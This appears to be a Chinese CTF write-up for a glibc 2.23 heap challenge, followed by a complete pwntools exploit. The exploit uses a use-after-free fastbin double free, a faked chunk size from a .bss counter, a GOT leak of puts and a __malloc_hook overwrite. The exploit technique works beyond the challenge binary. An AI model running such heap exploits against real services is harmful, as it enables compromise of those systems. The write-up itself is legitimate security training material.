




版本较低没有引入tcache。



申请堆用到的是malloc函数，堆块放入unsorted再申请可以直接打印libc地址。但是当时我把这点给忘了。所以我走了另一条路。利用



里面的uaf去实现fastbin的双重释放然后实现任意地址控制。

但是，这个地址选哪呢？

由于fastbin在取出堆块的时候会去检查size段，所以我们需要有地方去伪造。而我们最终的目的是要利用fastbin控制存储堆指针的内存段。所以我们去.bss段去找。



可以看到，存储堆地址的地点上有一个count存储这堆的数量。而fastbin取出时只检查size段是否合法。所以只要这个count够大，我们就可以在申请堆，然后控制之后的list数组。而堆数量最大是0x62。足够我们去扩大count的大小了。

所以首先需要申请大量的堆，让count的大小在我们要申请的堆的合法size段大小之内就行。

之后我们就控制了数组开头储存的几个堆地址。



visit函数会打印所有的堆地址里面的内容，利用这点就可以让我们打印got表。

之后就是再次利用doublefree打入malloc_hook，然后放入onegadget了。

```
from pwn import *

exe = ELF("11")
libc = ELF("libc_64.so.6")
ld = ELF("./ld-2.23.so")
r = process('./11')
#r = remote('node5.buuoj.cn',26233)
system = 0x400C5E
def add(size,name,txt):
    r.sendlineafter(b'Your choice : ',b'1')
    r.sendlineafter(b'Length of the name :',str(size).encode())
    r.sendafter(b'The name of flower :',name)
    r.sendlineafter(b'The color of the flower :',txt)
def delt(num):
    r.sendlineafter(b'Your choice : ',b'3')
    r.sendlineafter(b'Which flower do you want to remove from the garden:',str(num).encode())
def clean():
    r.sendlineafter(b'Your choice : ',b'4')
for i in range(60):
    add(0x10,b'aaaa',b'aaaa')
add(0x30,b'aaaa',b'aaaa')
add(0x30,b'aaaa',b'aaaa')
delt(60)
delt(61)
delt(60)
add(0x30,p64(0x6020A4),b'5678')
add(0x30,b'1234',b'5678')
add(0x30,b'1234',b'5678')
payload = p64(0)+p32(0)+p32(0x602020-16)
add(0x30,payload,b'5678')
#
r.sendlineafter(b'Your choice : ',b'2')
r.recvuntil(b'Color of the flower[0] :')
puts = u64(r.recv(6).ljust(8,b'\x00'))
libc_base = puts - libc.sym['puts']
addr = libc_base + libc.sym['__malloc_hook'] - 0x23
print(hex(libc_base))
print(hex(addr))
gdb.attach(r)
add(0x60,b'aaaa',b'aaaa')
add(0x60,b'aaaa',b'aaaa')
delt(66)
delt(67)
delt(66)
add(0x60,p64(addr),b'aaaa')
add(0x60,b'aaaa',b'aaaa')
add(0x60,b'aaaa',b'aaaa')
payload1 = b'a'*0x13+p64(system)
add(0x60,payload1,b'aaaa')
#
r.interactive()
```